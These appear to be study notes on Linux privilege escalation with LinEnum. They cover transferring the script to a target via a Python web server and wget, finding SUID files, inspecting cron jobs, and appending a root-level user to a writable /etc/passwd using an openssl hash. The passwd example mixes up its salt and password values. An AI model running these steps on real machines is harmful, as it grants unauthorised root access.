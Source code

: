 - tool for privilege escalation

- how to get it onto the target system?  
1. 
- go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using `python -m SimpleHTTPServer 8000"`
- using "wget" on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command "chmod +x FILENAME.sh"
2.     
- copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano
- save it as .sh
- make it executable: chmod +x FILENAME.sh

- running: ./LinEnum.sh

- LinEnum outputs:
	- kernel info
	- can we read/write sensitive files
	- SUID files
		- type of file permissions given to a file allowing the file to run with permissions of whoever the owner is (it can allow us to escalate privileges)
		- when special permission is given to a file, the file becomes SUID (Set user ID) or SGID (Set Group ID)
		- when extra bit “4” is set to user (Owner) it becomes SUID
		- when bit “2” is set to group it becomes SGID
		- finding them: `find / -perm -u=s -type f 2>/dev/null`
	- crontab contents - scheduled jobs
		- exploiting cron:
			- cat /etc/crontab
			- format: 
		```
		# = ID
		m = Minute
		h = Hour
		dom = Day of the month
		mon = Month
		dow = Day of the week
		user = What user the command will run as
		command = What command should be run
		```
		- eg: #  m   h dom mon dow user  command
     		`17  *  1   *    *    *     root  cd / && run-parts --report /etc/cron.hourly`
	- exploiting writable /etc/passwd
		- stores essential info for system login ~ stores user account info
		- plain text file
		- format is: `user_name:password:UID:GID:UID_info:home_directory:shell`; eg: `test:x:0:0:root:/root:/bin/bash`
		- when ‘x’ in passwd field it means that the password is stored in /etc/shadow
		- UID0 (user id) is reserved for roor user
		- GID (group id) - stored in /etc/group 
		- we can create new user, password hash, put him as root
		- passwd: `openssl passwd -1 -salt [salt] [password]` (salt=123, passwd=new)
		- add to /etc/passwd in format: `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash`
		- `su new > passwd: 123 `       
	- exploiting misconfigured binaries and GTFOBins
	- sudo -l
		- user can have permission to NOPASSWD a binary